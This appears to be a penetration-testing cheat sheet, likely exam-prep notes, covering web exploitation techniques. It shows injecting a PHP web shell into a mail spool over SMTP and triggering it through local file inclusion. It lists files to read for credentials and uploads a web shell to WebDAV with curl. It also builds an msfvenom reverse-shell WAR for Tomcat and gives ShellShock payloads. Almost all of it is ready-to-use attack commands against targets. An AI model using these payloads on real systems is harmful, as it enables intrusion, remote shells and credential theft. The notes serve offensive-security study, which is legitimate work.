 #### SMTP code injection associate with LFI to RCE
```bash
#Connect to the smtp port with nc/telnet
EHLO who_you_are
VRFY TARGET_USER
mail from:you
rcpt to: TARGET_USER
data
Subject: WHATEVER
<?php echo system($_REQUEST['cmd']);?>
    #<- this extra newline is essential
.   #<- also this period is essential
```

#### LFI notes
* /proc/self/status can see the web server current run as which user and proc id etc
* /proc/self/environ see process environment variable, potential password stored in env
* /var/log/apache2/access.log is one example of log paths, may fuzz with these [lists](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders) to see which files are usable
* /var/mail/TARGET_USER, at the end of request add a &cmd to execute command
* if you have write access to the host, upload a file that the host, use LFI filter to check if the file uploaded correctly(path and extension), remove the base64 wrapper for execution
* [null byte termination](https://gabb4r.gitbook.io/oscp-notes/web-http/lfi-and-rfi/null-byte-injection) `%00` only works before php 5.3
* if none of these work, try to view config.php,db_connect.php and see if they left any creds

### webdav
```bash
davtest -url IP -sendbd auto
# see want can be sent and executed
# say if txt and html can be executed
# copy your web shell and name it as .txt
curl -X PUT http://IP/shell.txt --data-binary @shell.txt 
curl -X MOVE -H "Destination:http://IP/shell.aspx" http://IP/shell.txt
```

### tomcat 
```bash
# use the enumerated login for manager portal
# create payload, add EXITFUNC=thread if target is Windows
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war -o rev.war
# go to manager panel -> war file to deploy
# click on the deployed war url for invoking reverse shell
```

### ShellShock

```bash
curl -A "() { :; }; PAYLOAD" http://IP/cgi-bin/cgi-script 
 
curl -H "User-Agent: () { :; }; PAYLOAD" http://IP/cgi-bin/cgi-script
```
